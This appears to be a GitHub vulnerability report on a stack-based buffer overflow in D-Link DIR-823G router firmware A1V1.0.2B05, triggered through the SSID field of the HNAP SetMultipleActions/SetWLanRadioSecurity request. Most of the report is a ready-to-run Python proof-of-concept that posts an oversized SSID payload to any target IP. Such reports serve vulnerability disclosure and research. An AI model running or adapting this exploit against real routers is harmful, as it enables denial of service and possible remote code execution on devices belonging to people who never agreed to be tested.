


# Bug Report: Buffer Overflow in D-Link DIR-823G Router
A buffer overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/HNAP1/SetMultipleActions` endpoint and handles the `SetWLanRadioSecurity`. When `SSID` in the handle function `sub_45ED70` is specified with excessive data, the buffer overflow occurs during string concatenation operations.


## poc


## Reproduce
```python
#!/usr/bin/env python3

import requests
import sys

def exploit(target):
    url = f"http://{target}/HNAP1/"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'text/xml; charset=utf-8',
        'SOAPAction': '"http://purenetworks.com/HNAP1/SetMultipleActions"',
        'HNAP_AUTH': '8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': f'http://{target}',
        'Connection': 'close',
        'Referer': f'http://{target}/SNTP.html',
        'Cookie': 'uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106'
    }
    
    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz</RadioID><SSID>'+ 'A' * 0x1000 + '</SSID></SetWLanRadioSecurity></SetMultipleActions></soap:Body></soap:Envelope>'
    
    response = requests.post(url, data=payload, headers=headers)
    print(f"Status: {response.status_code}")
    print(response.text)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <target_ip>")
        sys.exit(1)
    
    exploit(sys.argv[1])
```
